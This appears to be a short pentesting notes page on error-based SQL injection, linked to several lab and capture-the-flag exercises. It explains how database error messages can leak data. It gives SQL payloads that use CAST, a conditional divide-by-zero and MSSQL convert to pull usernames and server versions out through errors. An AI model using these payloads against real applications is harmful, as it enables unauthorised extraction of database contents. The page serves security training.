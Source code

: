 # Error-based SQLi

[![sqlinjectionfundamentals](../../../../../_badges/htb/sqlinjectionfundamentals.svg)](https://academy.hackthebox.com/course/preview/sql-injection-fundamentals)
[![sqlinjectionlm](../../../../../_badges/thm/sqlinjectionlm.svg)](https://tryhackme.com/room/sqlinjectionlm)
[![sqlilab](../../../../../_badges/thm/sqlilab.svg)](https://tryhackme.com/room/sqlilab)
[![validation](../../../../../_badges/htb-p/validation.svg)](https://app.hackthebox.com/machines/Validation)
[![sql_injection_authentication](../../../../../_badges/rootme/web_server/sql_injection_authentication.svg)](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-authentication)
[![sql_injection_string](../../../../../_badges/rootme/web_server/sql_injection_string.svg)](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-String)
[![sqli_visible_errors](../../../../../_badges/ps-lab/sqli/sqli_visible_errors.svg)](https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based)

<div class="row row-cols-lg-2"><div>

Error messages are sometimes enabled. They make it easier to exploit another type of SQL injection, such as Union-based SQLi.

If no other easiest SQLi attack is possible, we may use error messages to dump the database.

```sql!
-- Error: Incorrect INTEGER value: 'admin'
Select 1=CAST((SELECT username FROM accounts LIMIT 1) AS int)
```

```sql!
-- Error: Division by zero
Select [...] where 1=(case when (1=1) then 1/0 else 0 end)
```
</div><div>

In MSSQL, if `CAST` doesn't work, try `convert`:

```sql!
-- Conversion failed ... value 'Microsoft SQL [...]' ...
Select convert(int,@@version)
Select convert(int,(select @@version))
```
</div></div>